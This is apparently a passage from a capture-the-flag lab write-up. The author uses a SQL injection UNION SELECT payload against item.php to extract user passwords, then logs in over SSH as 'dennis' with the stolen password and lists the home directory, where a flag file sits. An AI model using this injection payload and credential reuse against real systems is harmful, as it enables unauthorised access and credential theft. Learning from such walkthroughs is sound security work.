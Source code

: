 
I tried to get the username, but was blocked like before when trying to use the ' character. I can get the passwords though:

```text
http://10.10.9.16/item.php?id=5 union select 1,password,3,4,5 from users
```

![jurassic-password](/assets/images/2021-01-27-22-44-56.png)

So we have the password, but where do we use it? And what could the associated username be?

## Gaining Access

From the Nmap scan we know there is ssh on port 22. From the developer on ?id=5 we found a possible user Dennis. And from the user table we found a password.

Let's use the credentials we've discovered and try to ssh in as dennis:

```text
kali@kali:~$ ssh dennis@10.10.9.16

The authenticity of host '10.10.9.16 (10.10.9.16)' can't be established.
ECDSA key fingerprint is SHA256:eFy2Vei0QQfyiVQ3CuPAY2EWlK9NbhaHnCzDOotI+O8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.9.16' (ECDSA) to the list of known hosts.
dennis@10.10.9.16's password: 
Welcome to Ubuntu 16.04.5 LTS (GNU/Linux 4.4.0-1072-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

dennis@ip-10-10-9-16:~$ 
```

Excellent, we are able to log in as dennis.

First let's look in our current directory. Using ls with the -a parameter shows all files, including hidden ones:

```text
dennis@ip-10-10-9-16:~$ ls -lsa

4 drwxr-xr-x 3 dennis dennis 4096 Jan 27 22:48 .
4 drwxr-xr-x 4 root   root   4096 Feb 16  2019 ..
4 -rw------- 1 dennis dennis 1001 Feb 16  2019 .bash_history
4 -rw-r--r-- 1 dennis dennis  220 Feb 16  2019 .bash_logout
4 -rw-r--r-- 1 dennis dennis 3771 Feb 16  2019 .bashrc
4 drwx------ 2 dennis dennis 4096 Jan 27 22:48 .cache
4 -rw-rw-r-- 1 dennis dennis   93 Feb 16  2019 flag1.txt
4 -rw-r--r-- 1 dennis dennis  655 Feb 16  2019 .profile
4 -rw-rw-r-- 1 dennis dennis   32 Feb 16  2019 test.sh
8 -rw------- 1 dennis dennis 4350 Feb 16  2019 .viminfo
```

